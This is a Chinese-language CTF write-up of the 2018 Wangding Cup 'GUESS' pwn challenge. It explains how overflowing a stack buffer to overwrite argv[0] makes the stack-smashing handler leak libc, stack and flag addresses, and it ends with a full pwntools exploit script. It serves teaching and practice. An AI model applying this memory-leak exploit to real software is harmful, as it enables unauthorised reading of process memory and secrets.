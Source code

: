 # 2018 网鼎杯 pwn--GUESS

![image](https://github.com/lhc328/pwn/blob/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/1.png)

放进ida查看一下，发现题目的要求是输入一段flag，要求与flag.txt文件里的内容相同，次数限制在3次。

![image](https://github.com/lhc328/pwn/blob/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/2.png)

checksec一下，明显的栈溢出漏洞，虽然开通了canary保护，但是flag已经读到栈里了。我们可以运用SSP(Stack Smashes Protect)

在程序加了canary保护之后，如果我们读取的buffer覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而stack smash技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序发现canary保护之后，如果发现canary被修改的话，程序就会执行__stack_chk_fail函数来打印argv[0]指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下


```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

所以说如果我们利用栈溢出覆盖argv[0]为我们想要输出的字符串的地址，那么在__fortify_fail函数中就会输出我们想要的信息。



## 利用思路

利用栈溢出覆盖 argv[0] 为puts_got地址 --> leak libc --> leak stack --> leak flag

1. 泄漏libc的基址
2. 泄漏environ的地址（也就是栈的地址）
3. 泄漏flag

### 第一步 找到存储arg[0]的地址

![image](https://github.com/lhc328/pwn/blob/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/3.png)

用gdb来查看，在_strcmp函数那下断点，运行，我们输入一个‘a’。

![image](https://github.com/lhc328/pwn/blob/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/4.png)

可见 agrv[0]地址为0x7fffffffe388, 我们输入的地址为 0x7fffffffe260,距离是0x128,我们要覆盖的范围就是0x128

所以泄露的payload = ‘a' * 0x128 + 要泄露的地址

### 第二步 泄露出 puts 的真正地址，计算出 libc_base ，environ_addr 和 stack_base 

​	payload = 'a' * 0x128 + puts_got

得到 puts_addr 后，libc_addr = puts_addr - .symbols['puts']

​	environ_addr = libc_addr + .symbols['_environ']

利用libc_base和libc.symbol['environ']计算出environ在栈上的地址，然后在gdb中利用b *environ计算其栈地址和flag的栈地址之间的距离然后leak出flag

第二次泄漏_environ，也就是栈的地址，也是在argv[0]处覆盖为_environ
为什么泄漏_environ可以泄漏出栈的地址呢？
是因为：
在linux应用程序运行时，内存的最高端是环境/参数节（environment/arguments section）
用来存储系统环境变量的一份复制文件，进程在运行时可能需要。
例如，运行中的进程，可以通过环境变量来访问路径、shell 名称、主机名等信息。
该节是可写的，因此在格式串（format string）和缓冲区溢出（buffer overflow）攻击中都可以攻击该节。
*environ指针指向栈地址(环境变量位置)，有时它也成为攻击的对象，泄露栈地址，篡改栈空间地址，进而劫持控制流。

环境表是一个表示环境字符串的字符指针数组，由name=value这样类似的字符串组成,它储存在整个进程空间的的顶部，栈地址之上
其中value是一个以”\0″结束的C语言类型的字符串，代表指针该环境变量的值
一般我们见到的name都是大写，但这只是一个惯例

![image](https://github.com/lhc328/pwn/blob/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/5.png)

可求出 stack_base与environ 地址差为 0x7fffffffe398 - 0x7fffffffe200 = 0x198

stack_base = environ_adr - 0x198

flag地址为 stack_base + 0x30

### 第三步 泄露出flag

payload = ’a' * 0x128 + p64(stack_base + 0x30)

exp：

```
from pwn import * 


p = process('./GUESS') 
elf = ELF('./GUESS')
libc = elf.libc

puts_got = elf.got['puts']
p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(puts_got) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
puts_addr = u64(p.recv(6).ljust(8,'\x00')) 


offset_puts = libc.symbols['puts'] 
libc_base = puts_addr - offset_puts 

offset__environ = libc.symbols['_environ']
_environ_addr = libc_base + offset__environ 

p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(_environ_addr) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
stack_base = u64(p.recv(6).ljust(8,'\x00')) - 0x198 

flag_addr = stack_base + 0x30 
p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(flag_addr) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
flag = p.recvuntil('}') 
print flag 
p.interactive()



```

